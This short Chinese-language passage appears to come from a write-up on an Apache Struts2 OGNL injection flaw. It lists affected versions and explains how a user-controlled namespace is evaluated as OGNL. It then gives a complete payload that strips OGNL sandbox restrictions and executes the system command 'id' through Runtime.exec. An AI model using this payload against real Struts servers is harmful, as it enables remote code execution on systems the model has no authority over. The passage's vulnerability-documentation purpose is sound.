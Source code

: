 影响版本：2.3 - 2.3.34， 2.5 - 2.5.16

如果 `alwaysSelectFullNamespace` 设置为 `true` 且 `action` 中未设置 `namespace` 或直接使用 `*` ，那么此时的 `namespace` 由用户控制，并作为 OGNL 表达式解析。

```java
${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

![图 12](12.png)
